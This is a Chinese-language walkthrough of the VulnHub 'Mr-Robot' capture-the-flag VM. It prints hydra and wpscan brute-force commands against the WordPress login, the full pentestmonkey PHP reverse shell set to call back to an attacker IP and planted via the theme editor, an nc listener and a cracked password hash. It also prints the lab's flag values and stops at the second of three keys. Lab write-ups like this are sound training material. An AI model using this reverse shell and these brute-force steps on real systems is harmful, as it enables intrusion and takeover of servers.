


<center>Mr.Robot</center>


[toc]


## Mr.Robot

> Mr.Robot. [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/)


> Description: 

```shell
Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.
```


### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

MAC Address: 00:50:56:FC:66:6C (VMware)
Nmap scan report for 172.16.168.136

nmap 172.16.168.136 -A

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 00:0C:29:A7:2B:EF (VMware)
```

> 收集到 IP 和 Port

> `80`端口

```shell
# 非常炫酷的网站。
http://172.16.168.136/

# 插件查看是一个wordpress
wpscan --url http://172.16.168.136/ 

robots.txt found: http://172.16.168.136/robots.txt

# robots.txt 不能让爬虫爬去的文件
http://172.16.168.136/robots.txt

# 下载文件
fsocity.dic 密码
key-1-of-3.txt flag1
```

> `flag1`

```shell
073403c8a58a1f80d943455fb30724b9
```

> 密码文件：[去重](https://www.anttoolbox.com/zh/tools/txt-deduplication)  => [排序](https://sorttext.buyaocha.com/)


### 3. 爆破wp

```sheel
# 输入wp后台网址 打开burp抓包
http://172.16.168.136/wp-admin
```

> 账号爆破



> 用户名： `Elliot`

> 密码同上。

````shell
# 方法二

用户名
hydra -l Elliot -P pass.txt 172.16.168.136 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username' -t 64

密码
hydra -vV -l  elliot -P pass.txt 172.16.168.136 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'


# 方法三 去wpscan官网注册用户，获取apikey
wpscan --url http://172.16.168.136/ -U elliot -P pass.txt --api-token 注册的key
````



> 跑出来了。

> 登陆成功了。哈哈


### 3. 上传 木马

```shell
# Appeaarance -> Editor -> 404.php


# 找shell
sudo find / -name php-reverse-shell.php

cat /usr/share/seclists/Web-Shells/laudanum-1.0/wordpress/templates/php-reverse-shell.php
```

> 木马，修改ip和端口

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
# $ip   = isset($_POST['ip']) ? $_POST['ip']   : '10.2.2.1';
$ip = '172.16.168.128';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
# $port  = isset($_POST['port']) ? $_POST['port']   : '8888';
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 
```

> nc 连接

```shell
nc -lvvp 8888

# 获取shell了
# 交互shell
python -c 'import pty;pty.spawn("/bin/bash")'

# 家目录
/home/robot

# robot的md5密码
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

> 在线解密： [hashes.com](https://hashes.com/zh/decrypt/hash)

```shell
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

# 登陆
su robot

# 密码
abcdefghijklmnopqrstuvwxyz

# 获取flag
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

